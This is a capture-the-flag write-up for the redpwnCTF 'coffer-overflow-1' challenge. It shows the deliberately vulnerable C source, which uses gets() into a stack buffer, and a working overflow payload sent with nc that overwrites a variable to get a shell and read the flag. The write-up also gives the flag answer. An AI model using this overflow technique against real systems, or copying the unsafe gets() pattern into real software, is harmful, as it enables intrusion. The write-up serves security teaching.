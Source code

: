 ```yaml
---
layout: post
title: "coffer-overflow-1"
author: "raghul-rajasekar"
---
```


The coffers keep getting stronger! You'll need to use the source, Luke.
`nc 2020.redpwnc.tf 31255`

**Files:**
- [coffer-overflow-1]({{site.baseurl}}/assets/coffer-overflow-1/coffer-overflow-1)
- [coffer-overflow-1.c]({{site.baseurl}}/assets/coffer-overflow-1/coffer-overflow-1.c)

# Solution

The source file contains the following code:

```
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```
This is similar to `coffer-overflow-0` except that `code` now needs to contain a specific value. For this, we just need to fill up the bytes between `name` and `code` with some junk and fill `code` with `0xcafebabe`.  From the disassembly of `coffer-overflow-1`, we can see that `code` is located at `rbp - 0x8` and `name` is located at `rbp - 0x20`, meaning that we require `0x18 = 24` bytes of junk followed by `0xcafebabe` as the input.

On running

```
python -c "print('abcdabcdabcdabcdabcdabcd\xbe\xba\xfe\xca\x00\x00\x00\x00\ncat flag.txt\n')" > payload
nc 2020.redpwnc.tf 31255 < payload
```

we get the contents of `flag.txt` from the server, as expected.
# Flag

`flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}`
